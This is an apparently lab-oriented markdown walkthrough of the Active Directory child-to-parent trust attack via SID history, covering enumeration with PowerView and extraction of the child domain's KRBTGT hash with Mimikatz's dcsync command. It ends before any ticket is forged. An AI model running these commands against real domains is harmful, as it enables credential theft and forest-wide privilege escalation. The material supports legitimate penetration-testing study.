 # Attacking Domain Trusts From Windows 🖥️
## SID History Primer
The [sidHistory](https://docs.microsoft.com/en-us/windows/win32/adschema/a-sidhistory) attribute is used in migration scenarios. If a user in one domain is migrated to another domain, a new account is created in the second domain. The original user's SID will be added to the new user's SID history attribute, ensuring that the user can still access resources in the original domain.
SID history is intended to work across domains, but can work in the same domain.

---

## Attack scenario

To perform this attack, we must first **compromise the child domain**. Once access is gained, the following information is required:

* The **KRBTGT hash** of the child domain
* The **Security Identifier (SID)** of the child domain
* * The **SID of the Enterprise Admins group** from the root domain
* The **Fully Qualified Domain Name (FQDN)** of the child domain
* The **name of a target user** in the child domain (*note: the account does not need to actually exist*)

With all of this data gathered, the attack can then be executed using **Mimikatz**.

---
1. Check Domain Trust
**Using PowerView**
```powershell
Get-DomainTrust
```
Out Example:
<img width="1681" height="808" alt="image" src="https://github.com/user-attachments/assets/bc658c97-fa9f-4978-84b6-6aa7fc02bd80" />

2. Obtaining the KRBTGT Account's NT Hash using Mimikatz
```powershell
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
```
<img width="1000" height="408" alt="image" src="https://github.com/user-attachments/assets/cb302a40-7795-4cbf-8c73-2e5851d15873" />

3. Get Security Identifier (SID)
**Using PowersView**
```powershell
Get-DomainSID
```
<img width="709" height="66" alt="image" src="https://github.com/user-attachments/assets/f1aac421-d7b7-440b-9cdb-fa5d239a4e83" />

4. Get SID of the Enterprise Admins group of the root domain
**Using PowersView**
```powershell
Get-DomainGroup -Domain CORP.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```
<img width="2188" height="328" alt="image" src="https://github.com/user-attachments/assets/27bdf486-88e5-4471-9b16-6054a5cd0685" />
